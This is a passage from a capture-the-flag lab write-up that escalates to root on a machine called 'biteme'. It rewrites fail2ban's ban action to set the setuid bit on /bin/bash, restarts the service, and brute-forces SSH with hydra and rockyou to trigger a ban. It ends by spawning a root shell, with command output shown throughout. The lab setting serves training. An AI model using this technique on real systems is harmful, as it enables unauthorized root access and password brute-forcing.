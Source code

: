 ```
banaction is happening iptables-multiport by check at file /etc/fail2ban/jail.local
and recent action show we got banaction through sshd from /var/log/fail2ban.log
```
*Now we have everything to go to root*

**Methodology**
- Editing /etc/fail2ban/action.d/iptables-multiport.conf to line start with actionban
- restart fail2ban
- bruteforce ssh

Editing iptables-multiport.conf by pass simple command
```
actionban = chmod +s /bin/bash
```
restart fail2ban
```
fred@biteme:~$ sudo /bin/systemctl restart fail2ban

```

Bruteforce ssh with hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.109.19 -t 4 ssh -V
```
Observing hydra
```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-24 19:41:56
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.109.19:22/
[ATTEMPT] target 10.10.109.19 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.109.19 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.109.19 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.109.19 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.109.19 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.109.19 - login "admin" - pass "princess" - 6 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.109.19 - login "admin" - pass "1234567" - 7 of 14344399 [child 0] (0/0)

```
we succefully set setuid to /bin/bash
```
fred@biteme:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
fred@biteme:~$ /bin/bash -p
bash-4.4# id
uid=1001(fred) gid=1001(fred) euid=0(root) egid=0(root) groups=0(root),1001(fred)
bash-4.4# cd /root
bash-4.4# cat root.txt
[REDACTED]
bash-4.4# 
bash-4.4# 
bash-4.4# 

```
We are root
